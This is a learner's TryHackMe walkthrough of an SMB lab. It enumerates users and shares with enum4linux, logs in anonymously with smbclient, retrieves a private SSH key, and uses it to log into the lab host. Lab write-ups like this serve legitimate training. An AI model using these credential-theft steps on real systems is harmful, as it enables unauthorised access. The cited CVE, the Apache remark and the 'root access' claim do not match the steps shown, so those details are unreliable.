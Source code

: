 # TryHackMe Documentation: Cyber Defense #1

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenge.
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to gain elevated access to exfiltrate data and capture the flag.

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**: 
	- `Enum4linux `
	- `enum4linux -U 10.10.242.131`
	- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)

	- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)

	- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)

	- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)

	- To download type `get id_rsa`
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)

	- Type `chmod 600` id_rsa to change the permissions
![chmod](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/c0217817-5203-46c4-9743-66995a57566a)

	- Type `ssh cactus@10.10.242.131 -i id_rsa` to access the server
![Screenshot 2024-05-20 190916](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/b61b84c7-f850-4c50-b0bd-147bcbfecbfd)

	- Type `ls`  to show files then `cat smb.txt` to view text file
![Screenshot 2024-05-20 191157](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/145c3e10-0603-4e3e-a297-f55fee5498ee)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

